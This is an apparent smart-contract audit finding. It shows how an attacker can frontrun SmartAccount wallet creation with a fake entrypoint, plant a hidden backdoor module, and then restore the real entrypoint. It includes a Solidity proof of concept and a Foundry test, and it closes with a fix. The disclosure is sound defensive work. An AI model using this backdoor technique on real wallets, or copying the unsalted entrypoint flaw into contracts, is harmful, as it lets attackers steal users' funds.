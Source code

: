 # SmartAccount wallet creation can be backdoored

At wallet creation time, an attacker can temporarily swap the address of the entrypoint to install a backdoor in the form of a registered module in the wallet.

Since wallets don't necessarily need to be created by their owners, an attacker can frontrun the wallet creation or trick the user using phishing techniques and modify the `_entryPointAddress` parameter with a custom version.

Entrypoints have total control of the wallet through the `execFromEntryPoint`. This means that the attacker can use a contract that acts as a temporal entrypoint to install and register a module in the wallet. This module would then sit dormant in the wallet until the attacker decides to use it against the user.

After the backdoor module is installed, the same temporal entrypoint implementation can be used to replace the wallet's entrypoint back to the original legit implementation. This would leave a wallet initialized with the intended owner and entrypoint, but with the backdoor already installed.

In summary, an attack can create a backdoored wallet on behalf of a user by swapping the entrypoint with an implementation that registers the backdoored module and then replaces the entrypoint implementation back to the original version (see PoC for more details).

## Impact

The installed module acts as a backdoor that has total control of the user's wallet, as any module can execute arbitrary code in the context of the `SmartAccount` contract through the `execFromEntryPoint` function.

The attacker can then wait for the right moment to steal any funds present in the wallet or compromise any integration associated with the wallet.

Note that this attack is also possible using the counterfactual wallet generation (`SmartAccountFactory.deployCounterFactualWallet`) as the entrypoint address is not part of the salt or init hash passed to create2.

## PoC

In the following test, an attacker creates Bob's wallet by replacing the entrypoint with a version that is used to install the backdoor. The steps are:

1. Deploy `BadEntrypoint` and `ModuleBackdoor`
2. Frontrun wallet's creation using `BadEntrypoint` as the entrypoint. Owner and handler are the same.
3. Call `BadEntrypoint.enableBackdoor` which will install the backdoored module by calling `ModuleManager.enableBackdoor` from the entrypoint and then replacing the entypoint itself with the real entrypoint implementation.

```solidity
contract ModuleBackdoor {
    function hack() external {
        // we can call execTransactionFromModule from this module to execute arbitrary code
    }
}

contract BadEntrypoint {
    function enableBackdoor(SmartAccount wallet, address module, address realEntrypoint) external {
        wallet.execFromEntryPoint(
            address(wallet), // address dest
            0, // uint value
            abi.encodeWithSelector(ModuleManager.enableModule.selector, module), // bytes calldata func
            Enum.Operation.Call, // Enum.Operation operation
            gasleft() // uint256 gasLimit
        );
        wallet.execFromEntryPoint(
            address(wallet), // address dest
            0, // uint value
            abi.encodeWithSelector(SmartAccount.updateEntryPoint.selector, realEntrypoint), // bytes calldata func
            Enum.Operation.Call, // Enum.Operation operation
            gasleft() // uint256 gasLimit
        );
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function test_SmartAccountFactory_WalletBackdoor() public {
        vm.startPrank(attacker);

        BadEntrypoint badEntrypoint = new BadEntrypoint();
        ModuleBackdoor backdoor = new ModuleBackdoor();

        // Initialize bob's wallet with bad entrypoint
        address proxy = factory.deployWallet(bob, address(badEntrypoint), handler);
        SmartAccount wallet = SmartAccount(payable(proxy));

        // Attacker's entrypoint will enable the backdoor module and replace entrypoint for the real version
        badEntrypoint.enableBackdoor(wallet, address(backdoor), entrypoint);

        // Backdoor is installed and enabled
        assertTrue(wallet.isModuleEnabled(address(backdoor)));
        // Owner and entrypoint are correct
        assertEq(wallet.owner(), bob);
        assertEq(address(wallet.entryPoint()), entrypoint);

        vm.stopPrank();
    }
}
```

## Recommendation

This may need further discussion. The entrypoint address can be fixed in the base SmartAccount implementation (the base implementation that the factory uses to initialize the Proxy). This way, a new wallet can be created without explicitly passing the entrypoint address.